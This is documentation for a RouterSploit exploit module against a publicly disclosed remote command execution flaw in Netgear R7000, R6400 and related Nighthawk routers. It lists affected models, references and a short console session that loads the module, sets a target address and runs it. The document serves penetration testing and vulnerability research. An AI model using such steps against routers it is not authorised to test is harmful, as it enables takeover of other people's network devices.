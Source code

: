 # Netgear R7000 & R6400 RCE

## Description
Module exploits remote command execution in Netgear R7000 and R6400 devices. If the target is vulnerable, command loop is invoked that allows executing commands on operating system level.

## Authors
* Chad Dougherty # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.sj-vs.net/a-temporary-fix-for-cert-vu582384-cwe-77-on-netgear-r7000-and-r6400-routers/](http://www.sj-vs.net/a-temporary-fix-for-cert-vu582384-cwe-77-on-netgear-r7000-and-r6400-routers/)
* [https://www.exploit-db.com/exploits/40889/](https://www.exploit-db.com/exploits/40889/)
* [http://www.kb.cert.org/vuls/id/582384](http://www.kb.cert.org/vuls/id/582384)

## Vulnerable devices
* R6400 (AC1750)
* R7000 Nighthawk (AC1900, AC2300)
* R7500 Nighthawk X4 (AC2350)
* R7800 Nighthawk X4S(AC2600)
* R8000 Nighthawk (AC3200)
* R8500 Nighthawk X8 (AC5300)
* R9000 Nighthawk X10 (AD7200)

## Usage
```
rsf > use exploits/netgear/r7000_r6400_rce
rsf (Netgear R7000 & R6400 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Netgear R7000 & R6400 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear R7000 & R6400 RCE) > run
[*] Running module...
```

